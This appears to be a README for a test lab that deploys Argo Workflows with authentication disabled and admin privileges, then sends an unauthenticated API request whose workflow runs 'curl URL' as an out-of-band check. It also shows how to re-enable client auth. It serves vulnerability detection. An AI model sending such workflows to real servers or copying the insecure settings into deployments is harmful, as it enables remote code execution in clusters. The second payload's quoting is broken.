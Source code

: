# Setup Requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# Vulnerable Instance
## Install Argo Workflows
```bash
kubectl create namespace argo
kubectl apply -n argo -f https://github.com/argoproj/argo-workflows/releases/download/v3.5.5/install.yaml
```
## Remove Authentication
```bash
kubectl patch deployment argo-server --namespace argo  --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/args", "value": ["server","--auth-mode=server"]}]'
```

## Allow Argo to Interact with the Resources in Your Kubernetes Cluster with admin-level Privileges
```bash
kubectl create rolebinding argo-default-admin --clusterrole=admin --serviceaccount=argo:default -n argo
```
## Expose the UI to localhost
```bash
kubectl -n argo port-forward deployment/argo-server 2746:2746
```
## Validate with OOB
Replace `PAYLOAD` with your payload and escape the `"` as it is a json value.
```bash
curl 'https://127.0.0.1:2746/api/v1/workflows/default' \
  -H 'Content-Type: application/json' \
  --data-raw '{"workflow":{"apiVersion":"argoproj.io/v1alpha1","kind":"Workflow","metadata":{"name":"","generateName":"scripts-"},"spec":{"destination":{"name":"","namespace":"","server":""},"source":{"path":"","repoURL":"","targetRevision":"HEAD"},"project":"","entrypoint":"aaaaaa","templates":[{"name":"aaaaaa","script":{"image":"curlimages/curl:7.78.0","command":["sh"],"source":"curl URL"}}]}}}' \
  --insecure
```
# Secure Instance
after setting up a vulnerable version, change the authentication mode to client.
## Change Authentication
```bash
kubectl patch deployment argo-server --namespace argo  --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/args", "value": ["server","--auth-mode=client"]}]'
```
## Expose the UI to localhost
```bash
kubectl -n argo port-forward deployment/argo-server 2746:2746
```
## Check that authentication is enabled
```bash
curl 'https://127.0.0.1:2746/api/v1/workflows/default' \
  -H 'Content-Type: application/json' \
  --data-raw '{"workflow":{"apiVersion":"argoproj.io/v1alpha1","kind":"Workflow","metadata":{"name":"","generateName":"scripts-"},"spec":{"destination":{"name":"","namespace":"","server":""},"source":{"path":"","repoURL":"","targetRevision":"HEAD"},"project":"","entrypoint":"aaaaaa","templates":[{"name":"aaaaaa","script":{"image":"curlimages/curl:7.78.0","command":["sh"],"source":"curl URL}}]}}}' \
  --insecure
```
it will response with `{"code":16,"message":"token not valid. see https://argo-workflows.readthedocs.io/en/release-3.5/faq/"}` which prove us that there is a authentication layer.


Ref: mostly from https://spacelift.io/blog/argo-workflows and https://argo-workflows.readthedocs.io/en/stable/argo-server-auth-mode/
